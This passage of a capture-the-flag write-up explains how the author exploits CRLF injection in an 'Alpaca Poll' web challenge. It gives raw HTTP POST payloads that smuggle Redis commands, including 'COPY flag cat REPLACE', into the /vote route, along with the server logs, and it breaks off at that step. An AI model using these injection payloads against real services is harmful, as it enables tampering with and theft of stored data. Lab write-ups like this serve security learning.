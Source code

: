 ## Exploitation

Armed with the above information, POST route `/vote` is vulnerable to CRLF injection.

To confirm it, we can setup a local testing environment via Docker:

```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Alpaca-Poll)-[2024.12.01|14:20:54(HKT)]
└> cd alpaca-poll  
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-7-(Web)/Alpaca-Poll/alpaca-poll)-[2024.12.01|14:20:57(HKT)]
└> docker compose up --build
[...]
Attaching to alpaca-poll-1
alpaca-poll-1  | [send] "SET dog 2\r\nSET cat 76\r\nSET alpaca 10000\r\nSET flag Alpaca{REDACTED}\r\n"
alpaca-poll-1  | [recv] "+OK\r\n+OK\r\n+OK\r\n+OK\r\n"
alpaca-poll-1  | server listening on 3000
```

And send the following POST request:

```http
POST /vote HTTP/1.1
Host: localhost:3000
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

animal=dog%0d%0a%0d%0afoobar
```

> Note: `%0d%0a` is URL encoded CRLF character.

Log messages:

```shell
alpaca-poll-1  | [send] "INCR dog\r\nfoobar\r\n"
alpaca-poll-1  | [recv] ":5\r\n-ERR unknown command 'foobar', with args beginning with: \r\n"
```

Yep! We totally injected our own Redis command!

Hmm... But how should we exfiltrate the key `flag`?

Maybe we could **copy the key `flag` and overwrite the animal key**, such as `dog`, `cat`?

According to the [Redis commands documentation](https://redis.io/docs/latest/commands/), we can use the [`COPY` command](https://redis.io/docs/latest/commands/copy/) with option `REPLACE` to overwrite the destination key.

So, maybe we can get the flag by sending the following requests?

```http
POST /vote HTTP/1.1
Host: localhost:3000
Content-Type: application/x-www-form-urlencoded
Content-Length: 43

animal=dog%0d%0a%0d%0aCOPY+flag+cat+REPLACE
```
